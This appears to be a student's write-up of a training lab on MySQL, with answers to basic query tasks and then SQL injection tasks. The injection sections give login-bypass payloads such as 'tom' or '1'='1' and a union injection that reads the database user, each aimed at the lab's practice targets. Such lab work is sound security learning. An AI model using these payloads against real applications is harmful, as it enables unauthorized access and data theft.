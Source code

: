 <h1><ins>Intro to MySQL</ins></h1>
<h2>Task: Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?</h2>

![Screenshot 2024-12-03 203708](https://github.com/user-attachments/assets/5320c989-cf53-4e9b-ac38-27c8de4986fc)

<h1><ins>SQL Statements</ins></h1>
<h2>Task: What is the department number for the 'Development' department?</h2>
We use <code> use employees;</code> to select database then <code>show tables;</code> to see all tables, to find department number we use <code>select * from departments;</code>

![Screenshot 2024-12-03 204026](https://github.com/user-attachments/assets/cc2ddd1f-81d1-4feb-a1db-4efe83c38ecb)

<h1><ins>Query Results</ins></h1>
<h2>Task: What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?</h2>
We can use command <code>select * from employees where hire_date = "1990-01-01";</code> which give us only one result.

![Screenshot 2024-12-03 205310](https://github.com/user-attachments/assets/77f8127b-d93e-457d-8334-ffeb36386d0d)

<h1><ins>SQL Operators</ins></h1>
<h2>Task: In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?</h2>
We can use command <code>select * from titles where emp_no > 10000 OR title != 'engineer';</code>

![Screenshot 2024-12-03 210046](https://github.com/user-attachments/assets/848405f2-1be2-4bd6-9167-d040db935d7e)

<h1><ins>Subverting Query Logic</ins></h1>
<h2>Task: Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?</h2>
using <code>tom' or '1'='1</code> as username input we can bypass login with any password

![Screenshot 2024-12-03 211949](https://github.com/user-attachments/assets/354fa0c5-b1e6-4e5f-a37e-2c70df03a5e9)

<h1><ins>Using Comments</ins></h1>
<h2>Task: Login as the user with the id 5 to get the flag.</h2>
Using or statment and user that is very unlikely to exist we login with id 5 by using <code>blahblah' or id = 5)-- </code> as our input

![Screenshot 2024-12-03 213430](https://github.com/user-attachments/assets/21af8ee0-c8c3-4733-ba9c-cfc250f4dbd0)

<h1><ins>Union Clause</ins></h1>
<h2>Task: Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.</h2>
using <code>SELECT * FROM employees UNION SELECT dept_no, dept_name, 2, 3, 4, 5 from departments;</code> we get table of both connected tables.

![Screenshot 2024-12-03 214530](https://github.com/user-attachments/assets/fd988319-8d54-4c92-99b7-19279f5d14d3)

<h1><ins>Union Injection</ins></h1>
<h2>Task: Use a Union injection to get the result of 'user()</h2>
Using <code>cn' UNION select 1,user(),3,4-- -</code> we can find the user.

![Screenshot 2024-12-03 215514](https://github.com/user-attachments/assets/beebca7a-58d5-4125-aaa7-c329a3dd3d41)

<h1><ins>Database Enumeration</ins></h1>
<h2>Task: What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?</h2>

